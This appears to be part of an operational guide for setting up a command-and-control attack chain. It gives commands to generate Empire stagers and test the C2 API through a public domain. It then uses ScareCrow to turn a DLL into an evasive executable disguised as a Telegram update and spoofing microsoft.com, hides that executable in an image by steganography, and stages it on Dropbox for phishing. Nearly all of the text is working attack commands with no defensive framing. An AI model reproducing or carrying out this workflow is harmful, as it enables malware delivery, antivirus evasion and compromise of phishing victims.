```python
# Windows PowerShell stager
usestager windows/launcher_bat
set Listener main_http
set OutFile /opt/stagers/launcher.bat
execute

# Windows DLL for ScareCrow
usestager windows/dll
set Listener main_http
set OutFile /opt/stagers/empire.dll
execute

# Verify stagers
ls /opt/stagers/
```

## 📋 COMPLETE WORKFLOW

Once the above is complete:

### 1. Test Empire Connectivity
```bash
# From Kali (local)
curl http://127.0.0.1:1337/api/v2/meta/version

# From internet (via droplet)
curl https://161-35-155-3.sslip.io/api/v2/meta/version
```

### 2. Generate Obfuscated Payloads
```bash
cd /home/kali/ScareCrow
./ScareCrow \\
  -I /opt/stagers/empire.dll \\
  -Loader binary \\
  -domain microsoft.com \\
  -O /home/kali/Main\ C2\ Framework/payloads/telegram-update.exe
```

### 3. Embed in Steganography System
```bash
cd /home/kali/Main\ C2\ Framework/advanced-steganography-phishing
python3 large-stego-system.py embed \\
  --payload /home/kali/Main\ C2\ Framework/payloads/telegram-update.exe \\
  --carrier-image ./images/telegram-hero.png \\
  --output ./output/telegram-hero-payload.png
```

### 4. Upload to Dropbox
```bash
# Use Dropbox API or web interface
# Upload embedded images to public folder
# Get public share links
```
